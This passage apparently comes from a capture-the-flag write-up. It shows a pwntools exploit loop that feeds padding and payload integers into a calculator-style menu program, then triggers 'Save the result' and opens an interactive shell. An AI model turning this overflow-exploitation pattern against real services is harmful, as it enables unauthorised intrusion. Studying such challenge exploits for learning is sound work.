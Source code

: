 ```
for i in range(padding):
	p.recvuntil('5 Save the result\n')
	p.sendline('2')
	p.recvuntil('input the integer x:')
	p.sendline('0')
	p.recvuntil('input the integer y:')
	p.sendline('0')
	p.recvuntil('\n')


for i in range(padding,times-1):
	p.recvuntil('5 Save the result\n')
	p.sendline('1')
	p.recvuntil('input the integer x:')
	p.sendline(str(payload[i]))
	p.recvuntil('input the integer y:')
	p.sendline('0')
	p.recvuntil('\n')


p.sendline('5')
p.interactive()
```

{%asset_img 13.png%}